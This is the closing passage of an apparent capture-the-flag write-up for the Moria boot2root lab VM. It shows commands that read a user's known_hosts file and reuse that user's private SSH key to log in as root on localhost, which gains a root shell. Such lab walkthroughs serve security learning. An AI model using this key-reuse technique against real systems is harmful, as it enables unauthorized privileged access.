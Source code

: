 ```bash
-bash-4.2$ cd .ssh/
-bash-4.2$ cat known_hosts 
127.0.0.1 ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCuLX/CWxsOhekXJRxQqQH/Yx0SD+XgUpmlmWN1Y8cvmCYJslOh4vE+I6fmMwCdBfi4W061RmFc+vMALlQUYNz0=
```  
  
This **known_hosts** file is local to the user account and contains the known keys for remote hosts.  
So we know that Ori sshed on localhost. Publickey auth mechanism is on.  
Unfortunately we can not read the sshd_config to check if ssh allows root login.  

Let's give a try to check if Ori's pubkey has been deployed in root's authorized_keys:  
```bash
-bash-4.2$ ssh -v root@127.0.0.1 -i ./id_rsa
...
Last login: Tue Mar 14 23:56:24 2017
[root@Moria ~]# id
uid=0(root) gid=0(root) groupes=0(root)
```  

Boummmm! here we go. The doors are opened.  
Hope you enjoyed.  
  
See you soon for more infosec stuff!  
  
Phackt.  
  
References:  
 - [Abatchy's blog download page](http://www.abatchy.com/2017/03/moria-boot2root-vm.html)
 - [Vulnhub download page]()
  

